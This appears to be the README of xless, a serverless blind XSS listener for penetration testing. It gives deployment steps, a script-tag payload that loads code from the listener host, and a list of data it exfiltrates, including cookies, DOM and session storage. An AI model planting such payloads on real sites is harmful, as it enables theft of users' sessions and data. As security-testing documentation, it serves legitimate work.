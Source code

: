 <h1 align="center">
  <br>
  <a href="https://github.com/mazen160/xless"><img src="https://user-images.githubusercontent.com/29874489/58731472-4f6c8080-83de-11e9-8206-992f4d777fdc.png" alt="Xless"></a>
  <br>
  xless
  <br>
</h1>

<h4 align="center">The Serverless Blind XSS App</h4>
  
<p align="center">
  <img src="https://img.shields.io/maintenance/yes/2019.svg?style=flat-square" alt="Maintained" /> 
  <img src="https://img.shields.io/bitbucket/issues-raw/mazen160/xless.svg?style=flat-square" alt="Issues" />
  <img src="https://img.shields.io/github/last-commit/mazen160/xless.svg?style=flat-square" alt="Last Commit" />
</p>

## :information_source: About The Project
**Xless** is a serverless Blind XSS (bXSS) application that can be used to identify Blind XSS vulnerabilities using your own deployed version of the application.  
There is no need to run a full deployment process; just setup a [zeit.co](https://zeit.co/) account and run `bash deploy.sh`.
That's it. You now have a fully-running Blind XSS listener that uses Slack to notify you for callbacks.

## :warning: Requirements
* [zeit.co](https://zeit.co/) account: zeit provides a **free plan** for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.


## :rocket: Deployment
1. Run `bash deploy.sh`

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://xless.now.sh [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## :speech_balloon: Example Payload

```html
<script src="https://xless.now.sh"></script>
```


## :eyes: Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


## :incoming_envelope: Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address

## :satellite: Out-of-Band (OOB) Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

## :eyes: Demo

```bash
$ curl https://xless.now.sh/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://xless.now.sh/88bf0ecd
```


##  Example Blind XSS payloads

You can view a number of handy XSS payloads for your xless app at `$URL/examples`
* URL: `https://xless.now.sh/examples`
Once you deploy your app, you can find the examples there.


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. Enabling sharing of page screenshot - Check `test.payload.js`.
2. _Your idea of a new feature_?


## Acknowledgement

* [Matthew Bryant](https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* [Rami Ahmed](https://twitter.com/rami_ahmad) for the "xless" name idea.
* [Damian Ebelties](https://twitter.com/DamianEbelties) for the logo.
* [Zeit.co](https://zeit.co/) for operating a great serverless platform.


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: mazin [at] mazinahmed [dot] net
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
